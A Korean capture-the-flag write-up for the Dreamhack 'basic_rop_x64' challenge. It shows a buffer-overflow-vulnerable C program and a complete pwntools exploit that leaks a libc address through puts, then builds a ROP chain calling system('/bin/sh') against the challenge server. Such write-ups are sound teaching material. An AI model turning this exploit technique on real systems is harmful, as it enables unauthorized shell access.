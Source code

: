 ```yaml
---
title: "[ Dreamhack ] basic_rop_x64"
date: 2023-03-20T12:47:10.015Z
categories: [Wargame,Dreamhack]
tags: ["dreamhack","pwn"]
---
```

![](/images/bc398d34-4038-4394-b299-9bd42c86ab4e-image.png)

<br>

<br>

## **문제 분석**

---

문제 파일에는 NX가 설정되어 있다.


```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int main(int argc, char *argv[]) {
    char buf[0x40] = {};

    initialize();

    read(0, buf, 0x400);
    write(1, buf, sizeof(buf));

    return 0;
}
```

0x40byte의 버퍼를 할당하고 0x400byte 만큼 버퍼에 입력받고 있다. 따라서 BOF 취약점이 존재한다.

<br>

## **문제 풀이**

---

![](/images/742dac0b-998e-4afa-a728-7565c8bc1a77-image.png)

GDB로 분석해보면 rbp-0x40에 버퍼가 위치하고 있다.

<br>

![](/images/a5849022-9c7b-4cb6-abdb-8c6f88631776-image.png)

주어진 libc를 보면 안에 "/bin/sh"라는 문자열을 찾을 수 있다.

<br>

![](/images/a531cef2-ce2b-4275-b76d-fac529f68438-image.png)

ROP기법에 쓸 가젯 역시 찾을 수 있다.

<br>

## **Exploit Code**

---
```python 
from pwn import *

p = remote('host3.dreamhack.games', 19405)
e = ELF('./basic_rop_x64')
libc = ELF('./libc.so.6')

puts_plt = e.plt['puts']
puts_got = e.got['puts']

rdi_ret = 0x0000000000400883

main_addr = 0x4007ba

system_offset = libc.symbols['system']
puts_offset = libc.symbols['puts']
binsh_offset = next(libc.search(b'/bin/sh\x00'))

payload = b'A'*0x40 + b'B'*0x8
payload += p64(rdi_ret)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(main_addr)

p.sendline(payload)
p.recv()
puts_addr = u64(p.recvn(6) + b'\x00'*2)
libc_addr = puts_addr - puts_offset
system_addr = libc_addr + system_offset
binsh = libc_addr + binsh_offset

payload2 = b'A'*0x48
payload2 += p64(rdi_ret)
payload2 += p64(binsh)
payload2 += p64(system_addr)

p.sendline(payload2)

p.interactive()
```
